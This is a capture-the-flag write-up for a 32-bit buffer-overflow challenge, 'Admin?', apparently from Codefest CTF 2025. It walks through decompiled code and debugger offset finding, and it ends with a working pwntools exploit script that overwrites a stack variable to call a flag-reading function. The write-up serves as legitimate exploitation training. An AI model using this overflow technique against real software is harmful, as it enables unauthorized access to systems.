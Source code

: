 ```yaml
--- 
title: Binary Exploitation : Admin?
date: 2025-01-027 
categories: [CTF, Writeups] 
tags: [ctf, buffer overflow ] 
author: 
description: A walkthrough of the pwn challenge from the IIT BHU - Codefest CTF 2025

---
```

### Description

### 100

challenge by : 0xkn1gh7

Can you become admin?

### Solution

we got a ELF executable file,

![[NOTES/blog_c/img1/image(1).png]]

checksec,

![[image(4).png]]

From the initial inspection of the ELF executable file,

1. The file is a 32-bit, little-endian executable.
2. The file is not stripped, allowing for easier debugging.
3. No stack canary is present, suggesting a vulnerability to buffer overflow attacks.

From the Decompiled Code ,
```c

int32_t win()
{
    void var_74;
    fgets(&var_74, 0x64, fopen("/flag.txt", u"r…"));
    return puts(&var_74);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* const __return_addr_1 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*stdout, nullptr);
    banner();
    int32_t var_14 = 1;
    void buf;
    fgets(&buf, 0x32, *stdin);
    
    if (var_14 != 0x23456723)
        printf("%x\\n", var_14);
    else
        win();
    
    return 0;
}

int32_t _fini()
{
    return;
}
```

At first, the idea was to overwrite the `EIP` register to directly call the `win()` function. Using `cyclic()` to find the offset for `EIP`:

```python
from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```

![[image(1) 1.png]]

However, after testing, it was observed that the EIP register was not overwritten. Upon further inspection of the assembly code:
![[NOTES/blog_c/img1/image(2).png]]

From the disassembly, it was noticed that the variable `var_14` is stored at `ebp - 0xc`. The value of `var_14` is compared with `0x23456723` at `main+89`. Using a debugger to set the break point at the address 0x56556315 to inspect the value:

```python
pwndbg> print/x *(int*)($ebp - 0xc)
$1 = 0x61616169
pwndbg> print/x ($ebp - 0xc)
```

This reveals the offset where `var_14` is located. Using `cyclic_find()`

```python
>>> cyclic_find(0x61616169)
32
```

The offset is confirmed to be 32 bytes.

Since the offset is revealed , By crafting a payload to overwrite the value at offset 32 with `0x23456723`, the condition to call the `win()` function is satisfied, and the flag can be retrieved.

### Exploit

using python with pwn for script,

```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('chall')

gdbscript = '''
break *main
continue
'''

if args.REMOTE:
    p = remote('codefest-ctf.iitbhu.tech', 16391)
elif args.GDB:
     p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)  

log.info("\\\\n==== start exploit ====\\\\n")
p.recvuntil(b'Admin?')
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\\x23\\x67\\x45\\x23'
p.sendline(payload)
print(p.recv())
p.interactive()
```

got the flag,
![[image(3).png]]